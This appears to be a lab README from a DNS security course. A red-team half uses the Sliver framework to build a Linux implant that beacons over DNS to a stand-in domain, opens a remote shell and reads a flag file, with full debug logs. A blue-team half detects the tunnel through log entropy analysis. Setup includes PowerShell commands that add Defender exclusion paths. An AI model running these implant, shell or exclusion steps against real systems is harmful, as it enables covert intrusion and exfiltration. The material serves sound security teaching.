

# DNS Security Lab

In this lab, we will explore how DNS communication can be subverted to infiltrate and exfiltrate data from a network. 

We will use **Sliver C2**, a command and control framework, to simulate how adversaries control botnets and perform malicious activities.

For personal experimentation, you can also use [iodine](https://github.com/yarrick/iodine), which provides DNS tunneling capabilities without the connotations associated with Sliver.

---

## Prerequisites

Before we begin, ensure you have the following:

1. **Docker Desktop** installed on your machine.

   - **Note:** During installation, choose **Hyper-V** and **untick** the **WSL2** option.
   - After installation, **reboot** your system to apply changes.

2. **Folder Authorization:**

   - To prevent security tools from flagging the lab files as malicious, you need to add an exclusion path.

   - Open **PowerShell** as an administrator and run:

     ```powershell
     # If you have MobaXterm installed:
     Add-MpPreference -ExclusionPath "C:\Users\admin\AppData\Roaming\MobaXterm"
     
     # If you're using the portable version of MobaXterm:
     Add-MpPreference -ExclusionPath "C:\Users\admin\AppData\Local\Temp\Mxt243"
     ```

   - **Note:** The path for the portable version may change with different versions of MobaXterm.

3. **Set Up the Lab Environment:**

   - **Using MobaXterm:**

     1. **Install Make:**

        ```bash
        apt install make
        ```

     2. **Clone the Lab Repository:**

        ```bash
        git clone https://github.com/jmanteau/dns-course-labs.git
        ```

     3. **Navigate to the Lab Directory:**

        ```bash
        cd dns-course-labs/dns-cyber-lab
        ```

     4. **Start the Lab Environment:**

        ```bash
        make up
        ```

     - **Note:** If you encounter issues with the `make` command on Windows, you may need to run the Docker commands directly as suggested in the error messages.
     - **Note**: You may have to run sequentially the make up while authorizing the file sharing prompt from Docker Destkop.

---

# Lab Overview


# 

# Red Team Activities

In this section, we'll act as the attacker to understand how DNS can be used for covert communication.

## Step 1: Generate the Payload

1. **Connect to the C2 Server Shell:**

   ```bash
   make c2_server_shell
   ```

2. **Start the Sliver Client:**

   ```bash
   # sliver
   Connecting to localhost:31337 ...
   
       ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
       ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
       ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
       ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
       ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
       ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝
   
   All hackers gain first strike
   [*] Server v1.5.42 - 85b0e870d05ec47184958dbcb871ddee2eb9e3df
   [*] Welcome to the sliver shell, please type 'help' for options
   
   [*] Check for updates with the 'update' command
   
   sliver >
   ```

   You should see the Sliver banner indicating that the client has started successfully.

## Step 2: Set Up DNS Listeners

To enable communication over DNS, set up a DNS listener with the correct Fully Qualified Domain Name (FQDN):

```bash
sliver > dns --domains s.commandcontrol.com   --lport 53 -D -c

[*] Starting DNS listener with parent domain(s) [s.commandcontrol.com.] ...

[*] Successfully started job #1
```

- **Explanation:**
  - `--domains s.commandcontrol.com`: Specifies the domain to use for DNS communication.
  - `--lport 53`: Sets the listener port to 53, the default DNS port.
  - `-D -c`: Flags to resolve issues related to the latest Sliver release (see [this issue](https://github.com/BishopFox/sliver/issues/1714#issuecomment-2437165100) for more details).

## Step 3: Generate the Implant

Create a payload (implant) that will be executed on the target machine:

```bash
sliver > generate --dns s.commandcontrol.com --os linux --save /shared-data --debug --reconnect 1

[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 24s
[*] Implant saved to /root/sliver/TENDER_HOSPITAL
```

- **Explanation:**
  - `--dns s.commandcontrol.com`: Specifies the DNS domain for the implant to communicate with.
  - `--os linux`: Generates a Linux-compatible binary.
  - `--save /shared-data`: Saves the generated implant to the shared data directory.
  - `--debug`: Includes debug information for easier troubleshooting.
  - `--reconnect 1`: Sets the reconnection interval.

**Note:** The implant is a binary executable designed to communicate back to the C2 server using DNS queries. The debug flag is used here for educational purposes to observe the implant's behavior.

**Sliver** can generates a **malicious binary** that can be executed on a Linux machine. Once this payload is executed on the target system, it tries to establish a **covert communication channel** back to the attacker’s server, here using DNS queries. These DNS queries are sent to the domain which the attacker controls (here s.commandcontrol.com-. The attacker can use this communication channel to issue commands to the infected machine or extract sensitive information.

## Step 4: Transfer the Payload

While it's possible to transfer the payload over DNS, it's often slow. For this lab, we'll transfer it directly.

- **Optional Challenge:** After completing the lab, try using tools like **DNSStager** to transfer the payload over DNS for a deeper understanding.

## Step 5: Execute the Implant on the Client

1. **Access the Client Shell:**

   ```bash
   make client_shell
   ```

2. **Run the Implant:**

   Replace `TENDER_HOSPITAL` with the name of your generated implant:

   ```bash
   / # /shared-data/TENDER_HOSPITAL
   2024/11/23 15:48:23 sliver.go:95: Hello my name is TENDER_HOSPITAL
   2024/11/23 15:48:23 limits.go:58: Limit checks completed
   2024/11/23 15:48:23 sliver.go:113: Running in session mode
   2024/11/23 15:48:23 session.go:64: Starting interactive session connection loop ...
   2024/11/23 15:48:23 transports.go:41: Starting c2 url generator () ...
   2024/11/23 15:48:23 transports.go:104: Return generator: (chan *url.URL)(0xc00007c6c0)
   2024/11/23 15:48:23 transports.go:92: Yield c2 uri = 'dns://s.commandcontrol.com'
   2024/11/23 15:48:23 transports.go:92: Yield c2 uri = 'dns://s.commandcontrol.com'
   2024/11/23 15:48:23 session.go:81: Next CC = dns://s.commandcontrol.com
   2024/11/23 15:48:23 session.go:81: Next CC = dns://s.commandcontrol.com
   2024/11/23 15:48:23 transports.go:92: Yield c2 uri = 'dns://s.commandcontrol.com'
   2024/11/23 15:48:23 session.go:171: Attempting to connect via DNS via parent: s.commandcontrol.com
   2024/11/23 15:48:23 dnsclient.go:150: DNS client connecting to 's.commandcontrol.com' (timeout: 5s) ...
   2024/11/23 15:48:23 dnsclient.go:295: [dns] found resolvers: [10.89.1.3]
   2024/11/23 15:48:23 crypto.go:199: TOTP Code: 52809890
   2024/11/23 15:48:23 dnsclient.go:713: [dns] Fetching dns session id via 'baakb4nb9w68.s.commandcontrol.com.' ...
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of baakb4nb9w68.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 10.042231ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 1.162.116.21
   2024/11/23 15:48:23 dnsclient.go:734: [dns] dns session id: 7643649
   2024/11/23 15:48:23 dnsclient.go:810: [dns] Fingerprinting 1 resolver(s) ...
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c3423e1f1fbyvwzpu.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 3.180792ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 92.10.10.78
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c342ecvtvmqu41y67.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 9.623392ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 153.190.31.97
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c3427qqre76jzxjyg.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 3.844706ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 25.33.165.86
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c3426n8gqbd5er33g.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.286681ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 17.107.58.163
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPNPEZfokxzwH.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.259932ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 208.211.228.44
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPSJri3BywNN5.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.637425ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 19.118.128.142
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPbsjY7F2GKS3.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.579596ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 239.28.240.5
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPd6Zv4zcUidp.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 3.515403ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 152.37.160.128
   2024/11/23 15:48:23 dnsclient.go:830: [dns] 10.89.1.3:53: avg rtt 3.74099ms, base58: true, errors 0
   2024/11/23 15:48:23 dnsclient.go:649: [dns] encoded: 0, subdata space: 227 | stop: 103, len: 104
   2024/11/23 15:48:23 dnsclient.go:655: [dns] shave data [0:104] of 104
   2024/11/23 15:48:23 dnsclient.go:661: [dns] encoded length is 157 (max: 228)
   2024/11/23 15:48:23 dnsclient.go:690: [dns] subdata 0 (0->104): 104 bytes
   2024/11/23 15:48:23 dnsclient.go:693: [dns] original data: 104 bytes
   2024/11/23 15:48:23 dnsclient.go:694: [dns] total subdata: 104 bytes
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 10.390112ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:152: [dns] answer (txt): [pdrzTB7BJ5lUz4TEjJItw4Zc3LNNzPll6whAc0BojCcPpQsDS9ZGuiT8d6PE0CKTCl3enPt-DllzUfGM]
   2024/11/23 15:48:23 dnsclient.go:355: [dns] key exchange was successful!
   2024/11/23 15:48:23 dnsclient.go:359: [dns] starting worker(s) ...
   2024/11/23 15:48:23 session.go:179: Starting new session with id = &{[0xc0000a62d0] 0xc0000a0240 map[10.89.1.3:53:0xc0000ae200] .s.commandcontrol.com. 1000000000 3 5000000000 false  228 7643649 1 false 0xc0001ba390 0xc000070600 0xc000070660 [0xc00006eba0 0xc00006ebc0] 2 {} {} true}
   2024/11/23 15:48:23 dnsclient.go:235: [dns] starting worker #0
   2024/11/23 15:48:23 dnsclient.go:235: [dns] starting worker #0
   ```

   - **Expected Output:**

     You should see debug logs indicating that the implant is attempting to connect back to the C2 server via DNS.

     

## Step 6: Interact with the Implant from the C2 Server

1. **Return to the Sliver Client on the C2 Server.**

2. **List Active Sessions:**

   After the implant connects, you should see a session appear:

   ```bash
   sessions
   ```

3. **Activate the Session:**

   Use the session ID displayed (e.g., `6126a4aa-6907-4de9-88c8-99824c8cccca`):

   ```bash
   use 6126a4aa-6907-4de9-88c8-99824c8cccca
   ```

4. **Open a Remote Shell:**

   ```bash
   shell
   ```

   - **Note:** You may be prompted with a warning about OPSEC (Operational Security). Confirm to proceed.

5. **Execute Commands on the Client:**

   For example, to read the `flag.txt` file:

   ```bash
   cat /flag.txt
   ```

   - **Expected Output:** Contents of the `flag.txt` file (if it exists).

6. **Exit the Shell:**

   Press `Ctrl+C` to exit the remote shell.

7. **Terminate the Implant on the Client:**

   On the client shell, press `Ctrl+C` to stop the implant.

## Step 7: Verify Firewall Rules

Check the firewall logs to ensure that only DNS traffic is allowed:

```bash
make firewall_shell
```

Then, list the iptables rules:

```bash
iptables -vL
```

- **Expected Output:**
  - Only DNS-related rules should show packet counts, indicating that other traffic is blocked.

---

# Blue Team Activities

Now, we'll switch roles to the defender's perspective to detect and mitigate the malicious DNS activities.

## Step 1: Log Analysis

We have generated DNS zones that simulate normal traffic using the top 10,000 DNS domains from [Cloudflare Radar](https://radar.cloudflare.com/). The client is performing DNS resolutions continuously, including the malicious queries from the Sliver implant.

1. **Access the Internal DNS Shell:**

   ```bash
   make dns_internal_shell
   ```

2. **Convert Binary Logs to Readable Format:**

   We use `dnstap-read` to convert binary logs to YAML:

   ```bash
   dnstap-read -y /var/log/log.dnstap > /var/log/dnslog.txt
   ```

3. **Inspect the Logs:**

   View the last few entries:

   ```bash
   ❯ tail -n 42 dns_internal/var/log/dnslog.txt
   type: MESSAGE
   identity: 8465940cfe2f
   version: BIND 9.20.3
   message:
     type: CLIENT_RESPONSE
     response_time: !!timestamp 2024-11-24T13:46:27Z
     message_size: 46b
     socket_family: INET
     socket_protocol: UDP
     query_address: "10.89.1.4"
     response_address: "10.89.1.3"
     query_port: 45801
     response_port: 53
     response_message_data:
       opcode: QUERY
       status: NOERROR
       id: 8387
       flags: qr rd ra
       QUESTION: 1
       ANSWER: 1
       AUTHORITY: 0
       ADDITIONAL: 0
       QUESTION_SECTION:
         - 'brwsrfrm.com. IN A'
       ANSWER_SECTION:
         - 'brwsrfrm.com. 86400 IN A 108.121.79.28'
     response_message: |
       ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id:   8387
       ;; flags: qr rd ra    ; QUESTION: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
       ;; QUESTION SECTION:
       ;brwsrfrm.com.			IN	A
   
       ;; ANSWER SECTION:
       brwsrfrm.com.		86400	IN	A	108.121.79.28
   ```

   - **Note:** You can adjust the number of lines (`-n 42`) as needed.

## Step 2: Analyze the Logs with a Python Script

We have provided a script called `analysis.py` that analyzes the DNS logs for suspicious activity.

1. **Run the Analysis Script:**

   ```bash
   python3 analysis.py
   ```

2. **Review the Output:**

   The script calculates various indicators for each domain, such as entropy, character ratios, and n-gram frequencies. Domains that exceed a certain threshold are flagged as suspicious.

   - **Sample Output:**

     ```
     [19:22:31] INFO     Parsing DNS logs from var/log/dnslog.txt                                                                                                                                                      analysis.py:313
     [19:22:49] INFO     Finished parsing DNS logs                                                                                                                                                                     analysis.py:342
                INFO     Starting analysis of domains                                                                                                                                                                  analysis.py:422
     Analyzing domains... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
     [19:22:50] INFO     Finished analysis of domains                                                                                                                                                                  analysis.py:443
     ========================================
     SLD: public-trust.com.
     Score: 4.50 (Threshold: 4.5)
     Number of flagged domains: 1
     FQDNs under this SLD:
        - public-trust.com.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 3.5069 (3.0721)
        non_letter_ratio: 0.0667 (0.0248)
        hex_char_ratio: 0.2000 (0.3017)
        vowel_ratio: 0.2667 (0.3348)*
        n_gram_2: 7.1429 (20.9079)*
        n_gram_3: 7.6923 (9.8561)
        gini_index: 0.9067 (0.8627)*
        classification_error: 0.8667 (0.7978)*
        number_of_labels: 2.0000 (2.2024)
        average_interval: 0.0000 (1.5459)*
        payload_size: 17.0000 (17.9644)
     ------------------------------
     ========================================
     SLD: 1024terabox.com.
     Score: 4.50 (Threshold: 4.5)
     Number of flagged domains: 1
     FQDNs under this SLD:
        - 1024terabox.com.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 3.6645 (3.0721)
        non_letter_ratio: 0.2857 (0.0248)
        hex_char_ratio: 0.2857 (0.3017)
        vowel_ratio: 0.2857 (0.3348)*
        n_gram_2: 7.6923 (20.9079)*
        n_gram_3: 16.6667 (9.8561)
        gini_index: 0.9184 (0.8627)*
        classification_error: 0.8571 (0.7978)*
        number_of_labels: 2.0000 (2.2024)
        average_interval: 0.0000 (1.5459)*
        payload_size: 16.0000 (17.9644)
     ------------------------------
     ========================================
     SLD: 524131g7t.xyz.
     Score: 4.80 (Threshold: 4.5)
     Number of flagged domains: 1
     FQDNs under this SLD:
        - 524131g7t.xyz.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 3.4183 (3.0721)
        non_letter_ratio: 0.5833 (0.0248)*
        hex_char_ratio: 0.0000 (0.3017)
        vowel_ratio: 0.0000 (0.3348)*
        n_gram_2: 0.0000 (20.9079)*
        n_gram_3: 0.0000 (9.8561)
        gini_index: 0.9028 (0.8627)*
        classification_error: 0.8333 (0.7978)
        number_of_labels: 2.0000 (2.2024)
        average_interval: 0.0000 (1.5459)*
        payload_size: 14.0000 (17.9644)
     ------------------------------
     ========================================
     SLD: choapuwtbvs.com.
     Score: 4.50 (Threshold: 4.5)
     Number of flagged domains: 1
     FQDNs under this SLD:
        - choapuwtbvs.com.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 3.5216 (3.0721)
        non_letter_ratio: 0.0000 (0.0248)
        hex_char_ratio: 0.2857 (0.3017)
        vowel_ratio: 0.2857 (0.3348)*
        n_gram_2: 7.6923 (20.9079)*
        n_gram_3: 8.3333 (9.8561)
        gini_index: 0.9082 (0.8627)*
        classification_error: 0.8571 (0.7978)*
        number_of_labels: 2.0000 (2.2024)
        average_interval: 0.0000 (1.5459)*
        payload_size: 16.0000 (17.9644)
     ------------------------------
     ========================================
     SLD: site24x7.com.
     Score: 4.50 (Threshold: 4.5)
     Number of flagged domains: 1
     FQDNs under this SLD:
        - site24x7.com.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 3.4594 (3.0721)
        non_letter_ratio: 0.2727 (0.0248)
        hex_char_ratio: 0.1818 (0.3017)
        vowel_ratio: 0.2727 (0.3348)*
        n_gram_2: 0.0000 (20.9079)*
        n_gram_3: 11.1111 (9.8561)
        gini_index: 0.9091 (0.8627)*
        classification_error: 0.9091 (0.7978)*
        number_of_labels: 2.0000 (2.2024)
        average_interval: 0.0000 (1.5459)*
        payload_size: 13.0000 (17.9644)
     ------------------------------
     ========================================
     SLD: terabox1024.com.
     Score: 4.50 (Threshold: 4.5)
     Number of flagged domains: 1
     FQDNs under this SLD:
        - terabox1024.com.
     Averaged indicators (* is flagged, average value (global average value) :
        entropy: 3.6645 (3.0721)
        non_letter_ratio: 0.2857 (0.0248)
        hex_char_ratio: 0.2857 (0.3017)
        vowel_ratio: 0.2857 (0.3348)*
        n_gram_2: 7.6923 (20.9079)*
        n_gram_3: 16.6667 (9.8561)
        gini_index: 0.9184 (0.8627)*
        classification_error: 0.8571 (0.7978)*
        number_of_labels: 2.0000 (2.2024)
        average_interval: 0.0000 (1.5459)*
        payload_size: 16.0000 (17.9644)
     ------------------------------
     ========================================
     SLD: commandcontrol.com.
     Score: 7.21 (Threshold: 4.5)
     Number of flagged domains: 73
     FQDNs under this SLD:
        - baakbyx0wa88.s.commandcontrol.com.
        - UYCkf2P1idG1KFkSoKVv.s.commandcontrol.com.
        - 1cwuqmad342jxy1pea9tjy89.s.commandcontrol.com.
        - 1cwuqmad342e9nbmfr8qq0h2.s.commandcontrol.com.
        - 6Ngv85FEMSXAquHiyZzdRWb.s.commandcontrol.com.
        - UYCkf2P1JLVniPmCmN6X.s.commandcontrol.com.
        - 1cwuqmad342bc1ak0mmn3znr.s.commandcontrol.com.
        - 3NNhTEvjhuigKuZWYu2Au1Gj835Y6LtwX5xQCVYFXetM7KokzUZbYRQhSXocvYF.DMHZoVWQpo5qQMCghT8km5ouFQDHekkVoLJriNC3NK9uQSLoUkEzGZNnAj5ycPW.Z5KJXga9rUhCZtU4Tio7jjU18Ya6WWQhMLh2iDgXKzy9Cc412zyFw5V1oLxMroc.9BXjoYykf1SzNoj9jMVysycKi2C7uqAdDaAPKuy.s.commandcontrol.com.
        - UYCkf2P1iyxi9gALCzmZ.s.commandcontrol.com.
        - 1cwuqmad342e7b5x1vnwh3yg.s.commandcontrol.com.
        - UYCkf2P1JekrA3T2CZbz.s.commandcontrol.com.
        - 3eHUAmw7uVKdY8RKWUdkBnwmVEayS3jUhJng2zycdFxSeegmB1rxMsQ9nta54mh.2FJPkqxdAg7nmkCF1kEfUyobMQB59aoffGjjQdcde4tPe24QxHETiG6eUEk65Hh.gH4GHNuFp5K3FBbe8MEPhNDqCCma3gr.s.commandcontrol.com.
        - H2Ev7q29w8mdSGMxJ8agimd7y7NVGHUW5eBJ3aUAJZZDhRsVTyFwpSVHCR2BDHw.n8uHpZJcULTPA7HsJpUjUbwAHswBwAyGqKPSkN2G6FWT2qnBdrn1fUQCJX74v5b.HbhvCNjj9aEBGsFF56vXuDTTEmZhf28MvbGPmmJxa8kZMy5B8QY.s.commandcontrol.com.
        - 6Ngv85FEMSXAiddKfXkobJV.s.commandcontrol.com.
        - 6Ngv85FEMSXAoSNcTWU2Hsg.s.commandcontrol.com.
        - 6Ngv85FEMSXb3qrgoubRJEv.s.commandcontrol.com.
        - 6Ngv85FEMSXAm9k411KUYQp.s.commandcontrol.com.
        - 1seJSpeF2h5ETxxgjj3AfkFjegAexPrN5zyLBPfG4d6RFtfczcdnYNY2bSFmKDA.WW1RqKCdZMqEN5MvYoiwUqbhHCtzNCx29UVr4uKYXqZoiLtRT1cbmEtt7wniTx8.j.s.commandcontrol.com.
        - 1NudDmC46z1nMipQpF2GSFCZ1DvUxqSt4UfZjwb4ZJUdQZFsz5DnQiVgMvuGxDL.rPZF6aqD97CJggMgUWptzdvDPUZ5zzMGMFco9GnePVTnzK24A2rZhHJkBCaLdY7.ZzhXwe4mGNCx.s.commandcontrol.com.
        - backbyhgt839ba8b.s.commandcontrol.com.
        - 6Ngv85FEMSXAyEXVnVvcHgs.s.commandcontrol.com.
        - 5Zetn7BHkeXJEzS1EkLXPtYXJbyaNNaS6FWc2yGViQARoW7xuiVnDLA2dpz9tYo.RiGD27u1LXUXo9gLq9ye57EnfimW7XD3yAKPiYFiyHyCh7rh79UG1d6nXNDAJ.s.commandcontrol.com.
        - backbyhgt859avr.s.commandcontrol.com.
        - backbyhgt879aw4.s.commandcontrol.com.
        - 4kMdLCzyk4aEtHv6GgwhMJxUmQ9utKQ4pJtSUbmYYM5Bbt12WyRVBHhtdC2q7tr.94aXdCYWWZX6HLmwJhavkPhXGSFEnEzTtzGJqg5AiRFbd1EM5aHFMs6F7.s.commandcontrol.com.
        - 4kMdLCzymkfon3zjXu86CfQ17RpJS4nLsgwdvaAXovBVv3KevADjmsAYM3F9Jgv.PQCWMNTs11d7oMFpMhesEgUtTbPcFwEX8eRy9kgzpdV9Qacih49Q6HenG.s.commandcontrol.com.
        - 6Ngv85FEMSXb4xnq54rSqkT.s.commandcontrol.com.
        - 6Ngv85FEMSXbg1uj8UjAxZB.s.commandcontrol.com.
        - backbyhgt899aw4.s.commandcontrol.com.
        - vu8NY269evX9FUZcsow748hyHGn8G5fzycJBvJixcj4F5UXTKL3pC5KKRSVifZx.KB3MdeHiPfdNYg9C2EAF7vhdRTKXzEWnovZwaBKwveg1gBGT3Tp98aEobyKNiTG.FHUkAxm.s.commandcontrol.com.
        - LpghHHXDLApz22utCaQYJ7zt5iLtmn3BdNCStwkubVPDGYDDgGajFifgu2QffYX.EDjx5CME8rX4RT5daqwjrZq681kcf8aQKbGHrP1ieuKPCmXQN6MFwxc6gxjE4vr.mTXXZ26VVbYxMJPvGvHGR85z8.s.commandcontrol.com.
        - 6Ngv85FEMSXb3MuE3hSdgc5.s.commandcontrol.com.
        - GnuEgwSD3UC8p8zWdYUo9MCipt7JkxYGRxhih11YJL3vZvb5zs8m3hNfpcPwV8V.iuifB6Fxw7XPbN1kyF5CpQYJ4kR6TThChWkho5rWCAd3fxFeM9HZyYGDMvPQLvy.77nwqiAuQEjNn8XVL3.s.commandcontrol.com.
        - 3NNhTEvjqRWxgJV72X6DqzVdSMLKkJdLD8XMSPUWY5cVzXP2gVLfPwFKwdu2BLi.igL8hHEU6wCzXziwFMoTiBJf5Pb9bJsJyWJv9bZxmYBA2ov42EjZD259EVFKKHL.UnxcijxhBuFV1pA1dRZxpMQkRF8mLAUaew5hhwZA3jtmEjK88UqVWjmNWsi5oUU.oo7AeXeYNrn6bvdedrJExbs2yPqSnqceMFH8vcH.s.commandcontrol.com.
        - backbyhgt8p9aw4.s.commandcontrol.com.
        - 6Ngv85FEMSXb11zqWjKRTfG.s.commandcontrol.com.
        - 4kMdLCzyvFBAerQXLi5Uz8VSuaYjFh7ZKz7HkgW8RtaqDPTMpP3McVqTMbrySk2.JFrdst5PBAqjk4HhTadrywdAbCktsdYRkH3VyMaaSiif5Tc5FVHGPaBUf.s.commandcontrol.com.
        - backbyhgt8u9aw4.s.commandcontrol.com.
        - 4kMdLCzytYGRM5M7u7Qfdnqgde7Rjtbgipxoea7RTQo3imxTghf2jsSnrNpPb9n.6zNems81ChmnEuboHc2wjwP2tZ2kh6BbnyemHkf7c5fWSqCJxfSgMd5qa.s.commandcontrol.com.
        - 6Ngv85FEMSXAwcsASaU5t8w.s.commandcontrol.com.
        - backbyhgt8y9aw4.s.commandcontrol.com.
        - 4kMdLCzywwGJ8CVHWRzuNzxr4VXd3ybj3QUecbz8spgr733o3Jm4yrZbAdGYUPj.7xS1iMRFL6bPUv9Yp26nFF8aaLmZqUmQzoVXb3ydyzBnc9Na5Kva8vADc.s.commandcontrol.com.
        - 6Ngv85FEMSXb6L6gXYxKLZP.s.commandcontrol.com.
        - 4kMdLCzyyEBt1NZvyeTkmVa45WQHP7FFMqnav9fvBJpPKXGvhpcZ3AHMDkBZsWm.D7pE9wSWP5KeWoBuR46EpesDEwBxfvuDG3q61DZw7mu1W93pxk9pQrSgE.s.commandcontrol.com.
        - 6Ngv85FEMSXbjRxmguTxdqu.s.commandcontrol.com.
        - backbyhgtk19aw4.s.commandcontrol.com.
        - backbyhgtk39aw4.s.commandcontrol.com.
        - HYN3PbtvJrNQaLKFv585TPgQ7rRegVpD3C4DPVbxxbRo4d6VeMGgfsUYXs7qwL6.KWb7p1dPcZXKiQjbbtpFEJdXx7ejMLAMhie2tPWnDx7R6Zb5v64T1arsG2.s.commandcontrol.com.
        - 6Ngv85FEMSXb47pA3DiTJ9e.s.commandcontrol.com.
        - dMd622Mo3rgmYHsgZSgtYPvQV3qxCAZVjd3riVG22wt9cAwEZyMRApGSmyEukk5.S88H8Rt3L97GLECnwj6xC9DMiyppUawxTDLBSZ1DnT9UPR9bpMUoHSjcNvQFmwT.kHH.s.commandcontrol.com.
        - 4kMdLCzz2Lh1v8fa8N5xCUwnsyScieTGXaQ9MphHZwQSWEnMMSG7iYhqpH9dnTm.WjNRPzHAv6brYHYZygJqFQf8ba2g9UX8cq9hjR34HxkDrBoU94BHxxBcR.s.commandcontrol.com.
        - 6Ngv85FEMSXAvGB9MX1ixDo.s.commandcontrol.com.
        - backbyhgtk59aw4.s.commandcontrol.com.
        - backbyhgtk79aw4.s.commandcontrol.com.
        - 6Ngv85FEMSXAv256SNMu93H.s.commandcontrol.com.
        - backbyhgtk99aw4.s.commandcontrol.com.
        - 3NNhTEvK18sKTnDwDxySy5jLsKDHU88DuvZ2P5LpC7wMZFEXtfQ7jktmzqD9CSN.V3FjmF6Tjxi2yvqqjG1tMQ3Rxad3q8qSmwAHv6FybdddE5KYMPdg1BNYVrLrNqY.py2K82fVLQdgiFd6widVNHqevH4mZ2u9LrCVKThFJdBC3Q29SmwHqfMgCeRHq1c.4rCUUvvpXqdLmewmD3Mnv7NkvRX3juVSbrMGMkd.s.commandcontrol.com.
        - 65u6Y3qKbvWCxkPbKDicVJbKQGPidvJ6PB2SwRD3z5mYKR3skVikGH2ZhqVU3BW.F5YN57q7ktzfad67WGxd36yUhDXYr5CLXJ8dgfjoxU3qu6FNiggikVRaQiz1agJ.c7GkSPEbt.s.commandcontrol.com.
        - a2tMe8MDwxuajVZMT1AzcSFoeWmnVAG18Hg12tifJYBtD7gk43pMVzAzJwRzMK4.NS5AbBmu4D6LhtNpMPaA91nbGXypFGohydbqfd3KSEFbuSbpoeY33rc8ybModbq.wCQsD3j8nAtZtMKzY.s.commandcontrol.com.
        - 6Ngv85FEMSXAzCB6ZPDDWJK.s.commandcontrol.com.
        - 1WTEgnsvUH1oRpTWkcYPK6oEMgudVuhDpQC4UMJj3pjYEpe9QDvN8i5esitdWZn.f3Yg8jzjaRaYHwWKRJLCJtRD6m7RTd9U1gwXFta1eoRrLnXu3TZ5rdN68DYEM1e.1hd5BDHrcHiB1u4xdcWPtpKWncd.s.commandcontrol.com.
        - 6Ngv85FEMSXAuasa9Xm7B45.s.commandcontrol.com.
